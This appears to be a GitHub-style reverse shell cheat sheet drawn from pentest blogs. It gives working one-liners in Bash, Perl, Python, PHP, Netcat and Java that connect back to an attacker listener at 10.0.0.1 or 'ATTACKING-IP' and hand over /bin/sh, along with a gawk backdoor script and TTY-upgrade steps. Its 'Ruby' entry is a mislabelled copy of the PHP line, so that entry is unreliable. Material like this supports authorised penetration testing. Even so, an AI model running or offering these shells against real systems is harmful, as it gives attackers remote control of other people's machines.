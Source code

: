 # Reverse Shell Cheat Sheet

---

This list represent an comphrehensive cheet sheet of shells and other related stuffs.

### Listening

To setup a listening instance, enter the following:

```sudo nc -nvlp 80```

### Reverse Shell

To connect back to a listening netcat instance, enter the following:

- Bash: ```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

- PERL: ```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

- PERL Windows 1: ```perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'```

- Python: ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

- PHP: ```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

- Ruby: ```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

- Netcat: ```nc -e /bin/sh 10.0.0.1 1234```

- Java:
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

- Gawk Reverse Shell:
```
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

- Spawning interactive reverse shells with TTY:
```
# In reverse shell 
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Attacker console
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```


Sources:
- [On HighOn Blog](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [On Pentenst Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [On Medium](https://medium.com/@6c2e6e2e/spawning-interactive-reverse-shells-with-tty-a7e50c44940e)
